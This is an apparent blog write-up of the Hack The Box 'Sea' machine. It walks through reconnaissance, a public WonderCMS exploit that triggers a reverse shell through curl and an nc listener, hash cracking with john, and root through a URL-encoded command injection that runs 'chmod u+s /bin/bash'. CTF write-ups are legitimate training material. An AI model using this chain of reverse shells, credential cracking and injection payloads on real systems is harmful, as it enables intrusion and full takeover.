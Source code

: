 ```yaml
---
layout: post
title: 'Sea Walkthrough: Conquering Hack The Box Season 6 "Sea htb"'
date: 14-08-2024
categories: [HackTheBox]
tag: season 6  
---
```


![](/img/1.png)

## Introduction  

 __Hack The Box Season 6, "Sea Machine," is a thrilling cybersecurity competition with a nautical theme, offering challenges that simulate real-world hacking scenarios. Participants test their skills in areas like web exploitation, cryptography, and network security. It's an exciting opportunity for both beginners and experts to sharpen their hacking abilities in a competitive, engaging environment.__



## Reconnaissance

 Network Scanning: as always, we will do nmap scan to know what is opened ports and it’s services in this machine.as always, we will do nmap scan to know what is opened ports and it’s services in this machine.

 ```
    -─(hu1k0㉿kali)-[~/Desktop/HTB]
    └─$ sh nmap.sh 10.10.11.28
    Performing initial scan on 10.10.11.28...
    Open ports: 22,80
    Performing detailed scan on 10.10.11.28...
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
    |   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
    |_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    | http-cookie-flags: 
    |   /: 
    |     PHPSESSID: 
    |_      httponly flag not set
    |_http-title: Sea - Home
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 ```
 then I browsed the site but didn't find anything interesting.
 
 ![](/img/vv1.png)
 ![](/img/vv2.png)
 

## directory discovery

 - __for directory discovery i use [ffuf](https://www.kali.org/tools/ffuf/) tool.__

 ```
  ┌──(hu1k0㉿kali)-[~/Desktop/HTB/reports] 
  └─$ ffuf -u http://sea.htb//FUZZ -w /usr/share/wordlists/dirb/common.txt  -mc 200,301,302,401,402,403 

 ```
 ![fufu1](/img/fffffu.png)
 
 - __first i go for '200' directories {contact.php}__
 - __i try some xss and sqli but no response__
  
  ![](/img/contact.png)

 - __then i tried all '301' directories but all give me Forbidden.__

  * messages , data , plugins , themes ...

 ![](/img/for.png)

 * then i back to http://sea.htb/ and press 'ctrl+u' to view-source:
  i notice this pass "http://10.10.11.28/themes/bike/css/style.css" which $bike$ is unique so i back and try to see what under this directory "/themes/bike/" 
 ```
  ┌──(hu1k0㉿kali)-[~/Desktop/HTB/reports]
  └─$ ffuf -u http://sea.htb/themes/bike/FUZZ -w /usr/share/wordlists/dirb/common.txt  -mc 200,301,302,401,402,403 -e .txt,.md,.php 
 ```
 ![](/img/rrrrr.png)

 - i go for '200' status

  README.md , version , summary , LICENSE..

 ![](/img/readme.png) 

 ![](/img/version.png)

## exploit

 - __so i go and search about it__  [Link.](https://gist.github.com/prodigiousMind/fc69a79629c4ba9ee88a7ad526043413) 

 ![](/img/exploit.png)

 - Usage: python3 exploit.py loginURL IP_Address Port\nexample: python3 exploit.py http://localhost/wondercms/loginURL 192.168.29.165 5252

 ![](/img/exlll.png)
 
 __We can send the link by Contact form to the admin__

 ![](/img/sewee.png)
 
 - now after reading the exploit script we will find it create a shell file in this pass {/themes/revshell-main/rev.php?lhost=" + ip + "&lport=" + port}

 - so we will send a request by [Curl](https://curl.se/docs/tooldocs.html)

 > curl 'http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.16.65&lport=9999'

 ![](/img/curl.png)
 
 > nc -nvlp 9999

 yup and we get the shell 

 ![](/img/shell.png) 
 
 now i will try to find any data to help me to get ``amay`` access
 
 ![](/img/db1.png)
 
 > cat database.js 

 ![](/img/333.png)

 * i found hash don't forget to remove a backslash \

 then i will use [johntheripper](https://www.kali.org/tools/john/) to crack this hash

 > john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

 - __now i have ```user``` and ```password``` i will to connect to ```ssh```__

 > ssh amay@10.10.11.28

 ![](/img/user.png)

## Privilege Escalation 

 - i download [linpeas.sh](https://github.com/XDev05/PEASS-ng/blob/master/linPEAS/linpeas.sh) to scan this machine 

 ![](/img/linpeas.png)

 > chmod +x linpeas.sh
 > ./linpeas.h

 ![](/img/biong.png)

 - __we have something open in localhost in this port so to access that there is a technique called Port Forwarding. It basically takes a user’s port and redirect it’s traffic to our port. To do that we have to run the following command.__

 > ssh -L 8888:10.10.16.6:8080 amay@10.10.16.6

 __and open in my browser ```127.0.0.1:8888``` and access with same ssh data..__

 ![](/img/yyyy.png)

 after intercepting the request I found this parameter (log_file=%2Fvar%2Flog%2Fapache2%2Faccess.log) which looks valuable I tried some command injection but nothing happened then I asked ChatGPT and it told me:

 ![](/img/ssm1.png)

 - Here. I will try the command injection is work; so i will make file .

 I will try command injection. add a semicolon after [log_file=%2Fvar%2Flog%2Fapache2%2Faccess.log;]  then URL encoded this command "touch /home/amay/hulk.hack" =>>"%74%6f%75%63%68%20%2f%68%6f%6d%65%2f%61%6d%61%79%2f%68%75%6c%6b%2e%68%61%63%6b" 

 ![](/img/sert.png)

 ![](/img/tert.png)

 - __BOOM!..it's WORK !!__
 
 - then if i can do this command "chmod u+s /bin/bash" it will gain me a root shill.because


         "u" stands for "user" (the owner of the file).

         "+s" sets the setuid bit.

         What Does setuid Do?

         When the setuid bit is set on an executable file, it allows a user to run the executable with the permissions of the file's owner. In the case of /bin/bash, which is typically owned by the root user, this means that any user who runs /bin/bash would start a shell with root privileges.

         and that what i do ..


 ```"chmod u+s /bin/bash" =>> "%63%68%6d%6f%64%20%20%75%2b%73%20%20%2f%62%69%6e%2f%62%61%73%68"```

 ![](/img/q33.png)

 * then go to ssh connection and type. "/bin/bash -p"

         The "-p" option in Bash stands for "privileged mode."
       with "-p", Bash skips this step, allowing the shell to retain its higher privileges (usually the effective user ID).
  
 > /bin/bash -p 

 ![](/img/root.png) 
